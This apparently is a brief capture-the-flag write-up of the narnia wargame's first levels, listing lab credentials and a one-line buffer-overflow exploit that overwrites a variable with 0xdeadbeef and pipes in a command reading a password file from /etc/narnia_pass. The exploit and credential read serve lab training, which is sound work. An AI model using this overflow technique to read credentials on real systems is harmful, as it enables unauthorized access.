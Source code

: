 

narnia seems to have 9 levels, narnia 0 .. 9.
Unlike in prior games, every level seems to involve an executable these are stored at `/narnia`, only the level specific one and its respective source code is accesible to the current user.

## level 0

as alwasy the credentials of the frist level were given freely.
username: narnia0
password: narnia0

## level 1

`(perl -e 'print "0"x20 . "\xef\xbe\xad\xde"'; echo "cat /etc/narnia_pass/narnia1") | ./narnia0`

username: narnia1
password: efeidiedae
